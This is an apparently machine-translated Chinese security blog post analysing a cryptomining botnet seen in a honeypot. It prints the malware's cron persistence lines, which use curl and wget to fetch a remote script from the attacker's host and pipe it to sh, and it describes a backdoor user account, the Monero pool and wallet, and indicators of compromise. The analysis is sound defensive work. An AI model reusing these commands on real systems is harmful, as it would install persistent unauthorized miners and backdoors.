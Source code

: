 # 采矿僵尸网络现在正在蔓延

> 原文：<https://medium.datadriveninvestor.com/mining-botnet-is-now-spreading-93be98b4f83e?source=collection_archive---------18----------------------->

[![](img/17d7f796e3981a63966d07f8c0b3e60c.png)](http://www.track.datadriveninvestor.com/BecomeDDItealI1)

[作者]SMII·蒙德赫|网络安全分析师|

在我的关于**密码劫持**的文章之后，我给你提供了第二篇关于检测采矿僵尸网络的文章。

[](https://medium.com/@smii.mondher/how-to-find-cryptojacking-malware-a905ac458329) [## 如何找到密码劫持恶意软件…

### 密码劫持是未经授权使用他人电脑挖掘加密货币。

medium.com](https://medium.com/@smii.mondher/how-to-find-cryptojacking-malware-a905ac458329) 

一个采矿僵尸网络出现在 m **y tunPOT 雷达**中，这确实引起了我的注意。这个僵尸网络试图感染各种采矿设备。

# **分析**

植入有效负载下载并执行以下脚本:

*   [hxxp://dec 9.000 webhostapp . com/0x 22/0xx 444/lmao](http://dec9.000webhostapp.com/0x22/0xx444/assets/)。嘘

这个脚本试图创建一个用户 **dec9** ，密码为**$ 1 $ mnyl 6 iyz $ kci 7 cwb/u 5 lzaz 3d yn 4 av/**，并使用 wget 或 curl 命令下载一个文件 **2001** 。

![](img/ea1d754380a9c77762ef4b134c0e8a0b.png)

隐藏脚本名为 2001，它的作用是设置一个 Cron 作业

> echo " */5 * * * * curl-fsSL[http://dec9.000webhostapp.com/0x22/0xx444/ixt.sh](http://dec9.000webhostapp.com/0x22/0xx444/ixt.sh)| sh ">/var/spool/cron/root
> echo " */5 * * * * wget-q-O-[http://dec9.000webhostapp.com/0x22/0xx444/ixt.sh](http://dec9.000webhostapp.com/0x22/0xx444/ixt.sh)| sh ">>/var/spool/cron/root

![](img/ad607d57c50c9ebe960c91dac94accf2.png)

第三个脚本叫做 ixt.sh，他专门用于 XMR 挖掘。

![](img/434b488c433f28d3f4644731afe533b2.png)

开采池有:

*   **算法**:密码夜——工作证明
*   pool.supportxmr.com:3333**矿池**
*   **钱包地址**:427 unvgfsb 7 w 412 C4 emingwnurvpohychv 48 xzfgamuuyyiqffnjweuaodqibsg 62 mredprckbhdox 9 wd 1 L3 o 1 jbraqr
*   **泳池通行证** : x

到目前为止，零硬币已支付，如下图所示:

![](img/bbd7115b655a8dcd47da6125a8edd8a7.png)

# TunPOT 威胁查看器

![](img/8978abd6123d35e5d08b889b367b497d.png)

检测:

YARA 规则

![](img/6ae1118977cd81c79ea02dd92fff3d5d.png)

国际奥委会

*   [hxxp://dec 9.000 webhostapp . com/0x 22/0xx 444/lmao](http://dec9.000webhostapp.com/0x22/0xx444/assets/)。嘘
*   [hxxp://dec 9.000 webhostapp . com/0x 22/0xx 444/](http://dec9.000webhostapp.com/0x22/0xx444/assets/). 2001
*   [hxxp://dec 9.000 webhostapp . com/0x 22/0xx 444/ixt](http://dec9.000webhostapp.com/0x22/0xx444/assets/)。嘘
*   [hxxp://dec 9.000 webhostapp . com/0x 22/0x444/Prussa](http://dec9.000webhostapp.com/0x22/0xx444/assets/)
*   [hxxp://dec 9.000 webhostapp . com/0x 22/0x444/](http://dec9.000webhostapp.com/0x22/0xx444/assets/)12

联系我:

smii.mondher@gmail.com

[![](img/17d7f796e3981a63966d07f8c0b3e60c.png)](http://www.track.datadriveninvestor.com/BecomeDDI1B)